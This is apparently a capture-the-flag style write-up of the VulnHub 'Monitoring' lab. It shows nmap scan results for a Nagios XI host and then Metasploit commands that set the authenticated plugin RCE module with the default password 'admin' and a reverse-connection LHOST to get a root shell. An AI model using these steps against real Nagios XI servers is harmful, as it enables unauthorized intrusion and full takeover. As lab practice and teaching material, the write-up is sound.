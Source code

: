 ```yaml
---
description: VulnHub Monitoring machine writeup
---
```


# \[Easy] Monitoring

### Recon

#### Services:

<pre class="language-c"><code class="lang-c">PORT    STATE SERVICE  VERSION
<strong>22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
</strong>| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_sslv2: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

### Web

#### Homepage

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

#### Login page

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

Use a <mark style="color:yellow;">`nagios_xi_plugins_check_plugin_authenticated_rce`</mark> module in Metasploit:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Set options:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.125.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SRVHOST tun0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
```

Run and get root:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
